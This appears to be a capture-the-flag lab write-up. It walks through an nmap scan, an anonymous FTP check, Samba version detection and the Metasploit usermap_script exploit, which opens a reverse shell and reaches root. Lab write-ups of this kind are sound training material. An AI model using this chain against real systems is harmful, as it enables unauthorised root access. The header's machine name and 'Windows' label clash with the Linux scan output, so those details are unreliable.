 # Legacy

Machine Level: Easy <br />
OS: Windows

## Scanning
I ran an aggressive NMAP script to determine the services and OS on the box. 
```
ajread@aj-ubuntu:~$ nmap -A [TARGET IP]-Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-21 15:55 EST
Nmap scan report for [TARGET IP]
Host is up (0.019s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [LOCAL IP]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.81 seconds
```
There wasn't anything that I could find on ```ftp```. 
```
ajread@aj-ubuntu:~$ ftp [TARGET IP]
Connected to [TARGET IP].
220 (vsFTPd 2.3.4)
Name (10.10.10.3:ajread): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||64004|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> exit
221 Goodbye.
```
With the SMB scanner, I was able to determine that the version was Samba 3.0.20-Debian. 
```
[*] [TARGET IP]:445        - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] [TARGET IP]:445        -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] [TARGET IP]:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
## Initial Access
I searched for the version of Samba in metasploit and found an excellent module for ```usermap_script``` to complete RCE. According to Rapid7, specifying a username with shell meta-characters allows a user to run commands. 

I set the appropriate inputs and ran the exploit in metasploit, which dropped me into a root shell! 
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on [LOCAL IP]:4444 
[*] Command shell session 1 opened ([LOCAL IP]:4444 -> [TARGET IP]:40884) at 2023-01-21 16:17:41 -0500

whoami
root
id
uid=0(root) gid=0(root)
```
I was able to read the user and root flags. 
```
wc -c user.txt
33 user.txt
wc -c /root/root.txt
33 /root/root.txt
```